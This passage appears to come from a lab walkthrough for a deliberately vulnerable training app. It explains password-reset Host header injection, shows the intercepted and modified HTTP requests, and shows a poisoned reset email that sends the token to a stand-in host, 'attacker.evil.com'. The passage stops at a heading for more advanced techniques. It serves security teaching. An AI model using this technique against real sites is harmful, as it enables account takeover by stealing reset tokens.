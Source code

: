 ### Advanced Solution Steps

#### Step 1: Understand the Vulnerable Password Reset Flow
**Objective:** Identify how the application uses the Host header

**Normal Password Reset Flow:**
1. User requests password reset
2. Application generates reset link: `http://[HOST_HEADER]/reset?token=abc123`
3. Link sent via email
4. User clicks link and resets password

**Vulnerable Point:** The application trusts the Host header to build the reset URL

#### Step 2: Basic Host Header Manipulation with Burp Suite
**Objective:** Inject a malicious host to capture the password reset token

**Using Burp Suite Interceptor:**
1. Open the HTTP Host Header Injection Lab
2. Enter an email: `victim@bank.com`
3. Click "Request Password Reset"
4. **Intercept the request in Burp Suite:**

**Original Request:**
```http
POST /api/vuln/host-header-injection HTTP/1.1
Host: localhost:5000
Content-Type: application/json

{"email":"victim@bank.com"}
```

5. **Modify the Host header:**
```http
POST /api/vuln/host-header-injection HTTP/1.1
Host: attacker.evil.com
Content-Type: application/json

{"email":"victim@bank.com"}
```

6. Forward the request
7. **Check the email preview** in the lab interface

**Poisoned Email Content:**
```
Subject: Password Reset Request

Click here to reset your password:
http://attacker.evil.com/reset?token=a1b2c3d4e5f6

This link will expire in 1 hour.
```

**Result:** When the victim clicks the link, their reset token is sent to `attacker.evil.com`!

#### Step 3: Advanced Host Header Injection Techniques
